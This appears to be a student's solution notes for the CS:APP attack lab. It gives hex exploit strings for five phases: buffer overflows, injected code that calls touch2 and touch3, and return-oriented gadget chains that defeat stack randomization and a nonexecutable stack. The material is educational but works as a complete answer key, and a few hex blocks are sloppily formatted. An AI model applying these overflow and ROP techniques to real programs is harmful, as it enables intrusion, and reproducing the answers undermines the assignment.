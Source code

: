 # Things to know:
* “Overrunning the buffer typically causes the program state to be corrupted, leading to a memory access error. Your task is to be more clever with the strings you feed CTARGET and RTARGET so that they do more interesting things. These are called exploit strings.”

* if you want to create a byte with a hex value of 0, you need to write it as 00
* Put your answer backward so like 401020  -> 20 10 40
* Pre allocating memory, subtract rsp
* Assigning value to rsp, adds to rsp
* Code Injection vs Return oriented programming

# Phase 1:
* Figuring out How big the buffer by looking at
* get buff
* sub    $0x38,%rsp , 0x38 = 56
* Overflow the buffer and rewrite the return address by redirecting it to the address of touch1

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00  //56  zero/padding
9c 12 40 00 00 00 00 00 //address of touch1
```

# Phase 2:
* Look at the stack(it’ll help you understand)
* (Look at hints in the handout) store your cookie into rdi so you can pass it as an argument
mov    $0x14f987af,%rdi
* Than you are going to want to push the address of touch2 and have a return(in a .d file)
pushq  $0x4012c8
retq
You’ll get the byte representation of the assembly code and that’s what you’ll use in your answer.
* If you run getbuff(hence set a breakpoint at getbuf to see what’s happening) and run it with your answer and check what’s in your stack (do x/20x $rsp ) you’ll see that your cookie and push touch2 at first are just passed in as a string so at first it doesn’t matter that much. But then when you get to rsp
* The rsp address is at the top of the stack where your instructions are hence they’ll start being implemented, where you pass the cookie as an argument to touch2.


```
48 c7 c7 af 87 f9 14 68 //cookie
c8 12 40 00 c3 00 00 00 //push touch2
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 0//0 00
78 9c 63 55 00 00 00 00 //rsp hex after callq //address of first machine instruction
//overwrite with our first injected code
```

# Phase 3:
* Convert cookie into a string
* If it is stored in buf, then the next hexmatch may overwrite its stack, but the parent stack of buf is safe. We put the address of touch3 on the top of the parent stack.
* Your injected code should set register %rdi to the address of this string.
* “When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.”
* Rsp from phase 2 is the first thing we read which sends us to our instruction and there it grabs the cookie.

```
48 c7 c7 b8 9c 63 55 68  //  the return address should be rsp from phase 2 +0x40(64 decimal) into rdi is where the address of the string (the location where the code execution address is saved) //moving the cookie to rdi(this is where the cookie was stored previously, past the overflow point at the end of the buffer) plus buffer size+0x8 for the return address and another 0x8 for touch 3
d9 13 40 00 c3 00 00 00 //address of touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 9c 63 55 00 00 00 00 //rsp from phase 2//points back to the beginning where your instructions are
31 34 66 39 38 37 61 66 // cookie turn into a string
```


# Phase 4:
* the strategy is to find several instructions/byte sequence in the existing code, these instructions are followed by instructions ret(gadgets)
* Each return is equivalent to jumping from one gadget to another, and then doing so through the constant jump to complete the operation we want.
* Similar logic as phase 2 but we are using return-oriented programming
* Your first gadget will be a popq rax(58),it will pop data from the stack
* Then put your cookie address and store it in rax thanks to gadget 1, then put the cookie into edi (hence mov rax,edi is your second gadget(48 89 c7 c3))
* And then just past the address of touch2
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00
7e 14 40 00 00 00 00 00 //gadget 1 popq rax  whatever was put at the top of the stack put into rax,//overwriting the return address with a gadget(that’s how it jumps into the stack)
When it gets a return command it looks at the return address and then it moves the stack pointer down .A return address is like popping. The gadget includes a return and then goes down to the cookie(rsp goes down to the cookie)
af 87 f9 14 00 00 00 00 //cookie Address , put cookie where rax is (stored in rax)
a6 14 40 00 00 00 00 00 //gadget 2 mov rax,edi // there is a c3 at that address
c8 12 40 00 00 00 00 00 //touch2
```


# Phase 5:
* From the moment we move the address of rsp to rax till the address of cookie, there are 9 addresses which are 8 gadgets and the address of touch3, exclude the value read in to rax and each address has 8 bytes.The gap must be 72 bytes, which is equal to the address of 0x48.
* The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
da 14 40 00 00 00 00 00 //Mov %rsp, %rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
99 14 40 00 00 00 00 00 //pop rax //pop data from the stack
48 00 00 00 00 00 00 00  // 9*8 = 72 =0x48 //6*8  to set up eax into esi
02 15 40 00 00 00 00 00//Movl %eax, %ecx   //89 c1
4b 15 40 00 00 00 00 00//Movl %ecx, %edx //89 ca
1d 15 40 00 00 00 00 00 //Movl %edx, %esi  //89 d6
b1 14 40 00 00 00 00 00//Lea (%rdi, %rsi, 1), %rax putting cookie into rax
a6 14 40 00 00 00 00 00//Mov %rax, %rdi
d9 13 40 00 00 00 00 00//Touch3's address
31 34 66 39 38 37 61 66//Cookie string
```
The first thing to do is to get the current %rsp address and use it to find the string.
Add this address to the offset, here is the function 0x48 just used add_xy
Find a way to put the above value into the %rdi
Follow the previous ret instruction, return touch3 the address
Store the string, for the sake of convenience, we put it to the end


# Return Oriented programming:

Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET, because it uses two techniques to thwart such attacks:

* It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.

* It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

Fortunately, clever people have devised strategies for getting useful things done in a program by executing existing code, rather than injecting new code. The most general form of this is referred to as return-oriented programming (ROP) [1, 2].
The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget. Figure 2 illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.

A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.
